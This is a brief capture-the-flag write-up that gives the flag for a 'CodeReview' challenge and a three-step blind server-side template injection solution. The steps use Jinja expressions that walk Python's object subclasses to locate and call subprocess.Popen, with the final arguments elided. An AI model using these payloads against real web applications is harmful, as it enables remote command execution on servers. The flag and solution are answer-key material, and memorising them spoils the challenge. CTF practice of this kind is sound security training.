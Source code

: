 # Flags

CodeReview part 1 flag: IRS{bl1nd_ssti_1s_p41nful_r1gh7}

# Solution

step 1: {{ "<class 'subprocess.Popen'>" in "".__class__.mro()[1].__subclasses__().__str__().split(", ") }}
(good code = true, bad code = false)

step 2: {{ "".__class__.mro()[1].__subclasses__().__str__().split(", ").index("<class 'subprocess.Popen'>") }}
(you can't view this value, so have to search for it)

step 3: {{ "".__class__.mro()[1].__subclasses__()[546](...) }}
(you have won)